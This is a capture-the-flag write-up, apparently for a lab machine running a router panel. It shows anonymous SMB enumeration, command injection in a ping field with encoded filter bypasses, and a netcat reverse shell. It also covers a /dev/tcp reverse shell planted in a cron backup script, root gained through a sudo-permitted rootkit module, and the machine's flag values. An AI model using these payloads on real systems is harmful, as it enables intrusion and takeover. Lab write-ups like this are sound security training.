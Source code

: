 ```yaml
---
sticker: emoji//1fab6
---
```

# ENUMERATION
---



## OPEN PORTS
---


| PORT | SERVICE |
| :--- | :------ |
| 22   | SSH     |
| 80   | HTTP    |
| 139  | SMB     |
| 445  | SMB     |



# RECONNAISSANCE
---

We got anonymous login enabled at `smb`, let's check it out:


```
smbclient -L \\\\10.10.214.108\\ -N
Can't load /etc/samba/smb.conf - run testparm to debug it
Anonymous login successful

	Sharename       Type      Comment
	---------       ----      -------
	public          Disk
	IPC$            IPC       IPC Service (Samba 4.15.13-Ubuntu)
SMB1 disabled -- no workgroup available
```

As we can see, we got a `public` share, let's take a look:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250423162152.png)

We got a file, let's get it and view the contents:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250423163005.png)

We got an endpoint, let's proceed with the web application then:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250423163046.png)

Nothing weird in here, let's go to the specified route:

```
http://10.10.214.108/myrouterpanel/
```

We can see this:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250423163143.png)

We can test some basic stuff, for example, let's try a simple ping to `127.0.0.1` to check the behavior:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250423163528.png)


Let's begin exploitation


# EXPLOITATION
---

As we can see, the ping goes through, based on this, we can try some command injection payloads, let's use a basic one to check the behavior:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250423163619.png)

There seems to be some blacklist surveilling which characters we put in the `ip`, we can try modifying the payloads until we get an advanced one, let's refer to our command injection notes, for example, here are a list of characters that may be helpful:

```bash
%3b      # URL-encoded ; (semicolon)
%26      # URL-encoded & (ampersand)
%7c      # URL-encoded | (pipe)
%0a      # URL-encoded newline (\n)
%09      # URL-encoded tab (space bypass)
%20      # URL-encoded space
+        # Often treated as a space in form data
${IFS}   # Internal Field Separator (space replacement)
```

I tried using a payload from a previous machine on `HackTheBox`:

```bash
ip=8.8.8.8%0Abash%09-c%09"id"%0A&submit=
```

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250423164508.png)

There we go, it worked, let's craft a reverse shell:

```bash
ip=8.8.8.8%0Abash%09-c%09"nc -c /bin/sh 10.6.34.159 9001"%0A&submit=
```


![](gitbook/cybersecurity/images/Pasted%252520image%25252020250423164854.png)

If we check our listener:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250423164905.png)

There we go, we got our connection, let's proceed with privilege escalation.


# PRIVILEGE ESCALATION
---


First step is to stabilize our shell:

```sh
python3 -c 'import pty;pty.spawn("/bin/bash")'
/usr/bin/script -qc /bin/bash /dev/null
CTRL + Z
stty raw -echo; fg
reset xterm
export TERM=xterm
export BASH=bash
```

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250423165109.png)

After using linpeas, I found there is a `/usr/share/backups` directory owned by `www-data` with the group `athena`, let's take a look:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250423165916.png)

We got a `backup.sh` file, let's look at the contents:

```sh
#!/bin/bash

backup_dir_zip=~/backup

mkdir -p "$backup_dir_zip"

cp -r /home/athena/notes/* "$backup_dir_zip"

zip -r "$backup_dir_zip/notes_backup.zip" "$backup_dir_zip"

rm /home/athena/backup/*.txt
rm /home/athena/backup/*.sh

echo "Backup completed..."
```

The script does the following:

1. Creates a backup directory at `~/backup` (likely `/home/www-data/backup` since it's owned by `www-data`).
    
2. Copies **all files** from `/home/athena/notes/*` into the backup directory.
    
3. Zips the backup into `notes_backup.zip`.
    
4. Deletes all `.txt` and `.sh` files in `/home/athena/backup/`.
    
5. Prints a completion message.

But none of this is relevant, we know that `athena` may be running this as a cronjob, we can modify the contents of the file to embed a reverse shell:

```bash
# Add reverse shell payload
bash -c 'bash -i >& /dev/tcp/YOUR_IP/PORT 0>&1' &
```

If we start our listener a wait a little bit:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250423170454.png)

We need to stabilize our shell again:

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
/usr/bin/script -qc /bin/bash /dev/null
CTRL + Z
stty raw -echo; fg
reset xterm
export TERM=xterm
export BASH=bash
```

Let's check our sudo privileges:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250423170829.png)

We can run something called `venom.ko`, let's have more info of it, we can do:

```
athena@routerpanel:/$ modinfo /mnt/.../secret/venom.ko
modinfo /mnt/.../secret/venom.ko
filename:       /mnt/.../secret/venom.ko
description:    LKM rootkit
author:         m0nad
license:        Dual BSD/GPL
srcversion:     93A81462832D4CF52F916D7
depends:
retpoline:      Y
name:           venom
vermagic:       5.15.0-69-generic SMP mod_unload modversions
```

As we can see, this is a rootkit written by `m0nad`, let's use GitHub:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250423171008.png)


This rootkit refers to something called `Diamorphine`, let's check the repo:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250423171043.png)

There we go, we got our way to get into root, since we need to send a `signal 64` to become root, we can do this:

```
sudo /usr/sbin/insmod /mnt/.../secret/venom.ko
sleep 10 & # This will show us the pid
kill -64 2865
```

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250423171951.png)

If we check our id, it doesn't seem to work, this is because the signal has been modified to `57` instead of `64` on this rootkit, we can now do it again:

```
sudo /usr/sbin/insmod /mnt/.../secret/venom.ko
sleep 10 & # This will show us the pid
kill -57 pid
```

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250423174845.png)

As seen, we are root:

```
athena@routerpanel:/$ cat /root/root.txt
aecd4a3497cd2ec4bc71a2315030bd48
```

```
athena@routerpanel:/$ cat /home/athena/user.txt
857c4a4fbac638afb6c7ee45eb3e1a28
```

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250423175116.png)

